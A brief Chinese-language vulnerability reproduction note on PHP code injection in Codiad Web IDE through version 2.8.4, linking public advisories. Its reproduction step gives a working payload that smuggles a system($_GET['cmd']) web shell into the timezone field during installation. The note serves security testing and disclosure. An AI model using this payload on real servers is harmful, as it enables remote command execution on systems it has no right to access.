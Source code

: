 ## 1. 漏洞介绍

Codiad的Web IDE到 2.8.4允许PHP代码注入。

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2019-19208)

[usd-2019-0049 | Codiad Web IDE](https://herolab.usd.de/security-advisories/usd-2019-0049/)

## 2. 漏洞复现

安装时抓包，修改 timezone 实现注入

```http
timezone='")%3b+system($_GET["cmd"])%3b+print("'
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312211911269.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312211911151.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312211912940.png)
